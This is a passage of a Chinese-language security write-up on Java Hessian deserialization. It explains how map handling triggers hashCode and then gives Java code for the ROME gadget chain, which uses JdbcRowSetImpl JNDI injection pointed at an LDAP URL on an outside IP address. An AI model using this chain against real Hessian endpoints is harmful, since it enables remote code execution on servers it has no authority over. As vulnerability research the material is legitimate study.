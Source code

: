先是`new HashMap()`，然后调用`map.put(in.readObject(), in.readObject());`。

这个调用了`put`，至于接下来的gadget肯定不用说了，触发hashCode。Hessian的rome链也就是在这里触发的。

当时也是先把key和value进行`readObject`，一层一层往下递归反序列化了。

然后是对`List`的处理基本差不多，对于`Object`处理也是递归进行了。

属性都处理完毕之后，就是调用`Object resolve = resolve(in, obj);`

![image-20220321162750075](Hessian反序列化.assets/image-20220321162750075.png)

处理流程中我唯一见到的调用反射的，。。。。调用`readResolve`方法。



## rome反序列化链

就是之前是调用`TemplatesImpl`的那个`getter`方法，这次调用`JdbcRowSetImpl`的那个`getter`来实现JNDI注入了。

```java
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://121.5.169.223:1389/o0bxok");
        //rs.setMatchColumn("foo");
        //Field listeners = Class.forName("javax.sql.rowset.BaseRowSet").getDeclaredField("listeners");
        //listeners.setAccessible(true);
        //listeners.set(rs,null);
        //SerializeUtil.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);
        //SerializeUtil.setFieldValue(rs,"listeners",null);
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        ObjectBean objectBean = new ObjectBean(String.class,"f");
        HashMap evilMap = new HashMap();
        evilMap.put(objectBean,1);
        evilMap.put(objectBean,1);
        SerializeUtil.setFieldValue(objectBean,"_equalsBean",equalsBean);
        //byte[] serialize = SerializeUtil.serialize(evilMap);
        //SerializeUtil.unserialize(serialize);
        byte[] serialize = HessianUtil.serialize(evilMap);
        HessianUtil.deserialize(serialize);
```
